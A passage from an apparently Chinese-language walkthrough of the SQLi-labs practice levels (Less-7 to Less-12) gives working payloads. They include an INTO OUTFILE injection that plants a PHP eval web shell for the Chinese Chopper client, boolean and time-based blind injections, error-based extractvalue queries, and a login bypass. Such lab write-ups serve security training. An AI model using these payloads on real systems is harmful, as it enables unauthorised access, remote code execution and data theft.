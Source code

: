 <br>

首先查询得到网站文件的保存绝对路径，之后编写一句话木马并使用 outfile 将文件上传到服务器  
中国菜刀链接  
`?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "xxxx\\demo.php"--+`

<br>

### Less-8 布尔单引号盲注

单字符直接注意推测爆破即可  
逐一判断直到所有字符都对上数据库名称即可！  
`?id=1' and left((select database()),1)='c' -- -`

<br>

### Less-9 时间单引号盲注

如果数据库坐起第一个字符等于 s，那么就睡 3 秒，否则立即返回真  
如果撞对了，睡 3 秒直接就可以感觉出来，如果不行的话自行打开 f12 查看网络部分的延迟毫秒数  
`?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+`

爆表  
`?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='k' , sleep(3), 1) --+`

<br>

### Less-10 时间双引号盲注

和 less9 一样，只不过单引号改为双引号而已

<br>

### Less-11 错误 POST 单引号注入

burp 抓包，发现存在三个 post 参数：uname、password、submit；  
我们尝试对 uname 进行注入  
发现使用以下代码可以成功登入，即存在注入漏洞  
`uname=admin' and 1=1 -- - &passwd=admin&submit=Submit`

之后使用 extractvalue 进行爆表爆列的操作了

<br>

### Less-12 错误 POST 双引号注入

双引号使用 extractvalue 报错爆库  
`uname=admin" and extractvalue(1,concat('~',(select database())))  and " &passwd=admin&submit=Submit`

> 当然也可以使用双引号加括号构造闭合直接注入  
> 譬如在 username 输入 `admin")#` 直接就可以登陆

<br>

### Less-13 POST 单引号双注
